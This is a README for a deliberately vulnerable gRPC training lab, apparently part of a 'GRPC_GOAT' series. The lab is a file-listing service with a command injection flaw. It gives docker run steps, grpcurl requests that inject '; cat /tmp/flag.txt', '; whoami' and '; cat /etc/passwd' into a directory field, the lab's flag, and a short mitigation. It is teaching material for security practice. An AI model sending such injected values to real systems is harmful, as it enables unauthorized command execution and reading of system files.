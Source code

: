 # Lab 008: Command Injection

## Vulnerability
File Listing service with command injection vulnerability.

## Objective
Exploit command injection in the ls command to read the flag file.

## Run the Lab
```bash
# Build and run
docker build -t grpc-008 .
docker run -p 8008:8008 grpc-008
```

## Exploit

```bash
# Install grpcurl
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# Normal directory listing
grpcurl -plaintext -d '{
  "directory": "/tmp"
}' localhost:8008 fileprocessor.FileProcessor/ListFiles

# Command injection - read flag file
grpcurl -plaintext -d '{
  "directory": "/tmp; cat /tmp/flag.txt"
}' localhost:8008 fileprocessor.FileProcessor/ListFiles

# Command injection - execute whoami
grpcurl -plaintext -d '{
  "directory": "/tmp; whoami"
}' localhost:8008 fileprocessor.FileProcessor/ListFiles

# Command injection - read system files
grpcurl -plaintext -d '{
  "directory": "/tmp; cat /etc/passwd"
}' localhost:8008 fileprocessor.FileProcessor/ListFiles
```

## Impact
Attackers can execute arbitrary commands through the file listing functionality.

## Flag
Successfully read the flag file to get: `GRPC_GOAT{command_injection_file_listing}`

## Mitigation
Validate directory paths and avoid shell execution with user input.
